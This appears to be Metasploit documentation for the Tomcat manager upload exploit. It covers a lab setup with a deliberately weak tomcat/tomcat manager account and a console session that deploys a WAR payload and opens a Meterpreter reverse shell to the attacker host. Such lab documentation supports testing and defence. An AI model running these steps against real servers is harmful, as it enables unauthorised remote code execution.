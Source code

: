 
### Tomcat7 (7.0.68) - Ubuntu server 16.04 64bit
Of note, as of Tomcat 7, the permission role `manager` has been divided into several sub-roles.  Each sub role the user has will change which `path` variable for exploitation.

#### Setup
1. Install Tomcat and dependencies: `apt-get install tomcat7 tomcat7-admin`

#### text/script Interface Exploitation

1. Edit `/etc/tomcat7/tomcat-users.xml` to add:

```xml
<role rolename="manager-gui"/>
<user username="tomcat" password="tomcat" roles="manager-gui"/>
```

2. Restart the service if a user was added/changed: `sudo service tomcat7 restart`

3. Exploit:

```
msf > use exploit/multi/http/tomcat_mgr_upload
msf exploit(tomcat_mgr_upload) > set HttpUsername tomcat
HttpUsername => tomcat
msf exploit(tomcat_mgr_upload) > set HttpPassword tomcat
HttpPassword => tomcat
msf exploit(tomcat_mgr_upload) > set payload java/meterpreter/reverse_tcp
payload => java/meterpreter/reverse_tcp
msf exploit(tomcat_mgr_upload) > set lhost 192.168.2.117
lhost => 192.168.2.117
msf exploit(tomcat_mgr_upload) > set verbose true
verbose => true
msf exploit(tomcat_mgr_upload) > set rhost 192.168.2.118
rhost => 192.168.2.118
msf exploit(tomcat_mgr_upload) > set rport 8087
rport => 8087
msf exploit(tomcat_mgr_upload) > check

[*] Tomcat Manager found running on linux platform and x64 architecture
[!] No active DB -- Credential data will not be saved!
[*] 192.168.2.118:8087 The target appears to be vulnerable.
msf exploit(tomcat_mgr_upload) > exploit

[*] Started reverse TCP handler on 192.168.2.117:4444
[*] Retrieving session ID and CSRF token...
[*] Finding CSRF token...
[*] Uploading and deploying QyjbnIqnn23FOe...
[*] Uploading 6077 bytes as QyjbnIqnn23FOe.war ...
[*] Executing QyjbnIqnn23FOe...
[*] Executing /QyjbnIqnn23FOe/2NFgGA5fk1.jsp...
[*] Finding CSRF token...
[*] Undeploying QyjbnIqnn23FOe ...
[*] Sending stage (49409 bytes) to 192.168.2.118
[*] Meterpreter session 1 opened (192.168.2.117:4444 -> 192.168.2.118:33808) at 2017-01-15 20:04:21 -0500

meterpreter > sysinfo
Computer    : tomcat
OS          : Linux 4.4.0-59-generic (amd64)
Meterpreter : java/linux
```
